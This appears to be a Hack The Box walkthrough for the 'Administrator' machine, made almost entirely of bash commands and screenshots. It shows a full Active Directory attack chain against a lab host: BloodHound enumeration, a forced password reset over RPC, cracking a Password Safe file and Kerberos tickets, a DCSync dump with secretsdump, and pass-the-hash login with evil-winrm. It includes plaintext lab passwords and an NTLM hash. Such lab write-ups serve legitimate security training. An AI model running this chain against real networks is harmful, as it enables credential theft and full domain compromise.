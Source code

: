 # Credentiels to sart
```bash
bloodhound-python -u Olivia -p ichliebedich -ns 10.10.11.42 -d administrator.htb -c all

```
```bash
zip -r administrator.zip *.json
```

## Bloodhound

![Screenshot from 2024-11-22 14-54-59](https://github.com/user-attachments/assets/f7a21d64-6269-413d-b23c-f75b4ae06cd7)

```bash
net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "10.10.11.42"

```
![Screenshot from 2024-11-22 18-36-32](https://github.com/user-attachments/assets/4079afcf-d7b9-45b5-bd99-bd0bcf32031f)
![Screenshot from 2024-11-22 18-38-21](https://github.com/user-attachments/assets/a54d724c-dc83-4dce-8887-701b90cdc69e)


```bash
pwsafe2john.py Backup.psafe3 > backuphash
```
```bash
john --wordlist=rock.txt backuphash 
```
![Screenshot from 2024-11-22 18-41-22](https://github.com/user-attachments/assets/20c08e41-72f4-46cc-98f9-c0bbb17b6f5f)

![Screenshot from 2024-11-22 18-41-54](https://github.com/user-attachments/assets/2b981876-589e-44d7-a248-d3408b9a8354)


![Screenshot from 2024-11-22 18-30-14](https://github.com/user-attachments/assets/f4f2899e-5ae2-4bf2-8e5c-9db0bc9de773)

```bash
ython3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```
### Error
![[Screenshot from 2024-11-22 18-32-42.png]](assests/Screenshot from 2024-11-22 18-32-42.png)
### Fix
```bash
faketime "$(ntpdate -q administrator.htb | cut -d ' ' -f 1,2)" python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

```

```bash
hashcat -m 13100 ethan.hash rock.txt
```
![Screenshot from 2024-11-22 18-32-42](https://github.com/user-attachments/assets/ab691126-ab35-4c6e-8f2a-56db2ef0d97a)

```bash
secretsdump.py -outputfile administartor_hashes -just-dc ethan@10.10.11.42
```

```bash
evil-winrm -u administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e' -i administrator.htb

```
